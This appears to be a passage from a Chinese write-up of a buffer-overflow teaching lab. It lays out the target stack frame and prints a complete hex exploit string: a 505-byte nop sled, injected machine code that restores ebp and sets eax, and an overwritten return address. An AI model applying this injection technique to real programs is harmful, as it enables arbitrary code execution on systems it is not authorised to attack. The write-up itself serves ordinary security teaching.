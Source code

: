 根据以上分析应构造的栈帧结构如下：

| 地址           | 解释                                                     |
| -------------- | -------------------------------------------------------- |
| 返回地址       | 设置成几个缓冲区首地址的最小值，然后使用nop sled运行下去 |
| ebp            | 占用4字节，会被破坏，所以要还原                          |
| ...            | ...                                                      |
| ebp - 520 字节 | buf 数组的初始地址，从这里开始注入代码                   |
| ...            | ...                                                      |
| ebp - 0x218    | esp，栈帧首地址                                          |

结合得到的 5 次 buf 首地址，应该让程序跳转到地址最高的一次，然后一路 nop sled。最大的地址为 `0x55682f78`，应当填入第 524 字节。所以构造答案如下：

```
/* 505 字节的 nop */
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90
/* 注入的代码 */
8d 6c 24 28 b8 70 5a 2d 36 68 3a 8e 04 08 c3
/* 覆盖 ebp */
00 00 00 00
/* 破坏返回地址 */
78 2f 68 55
```
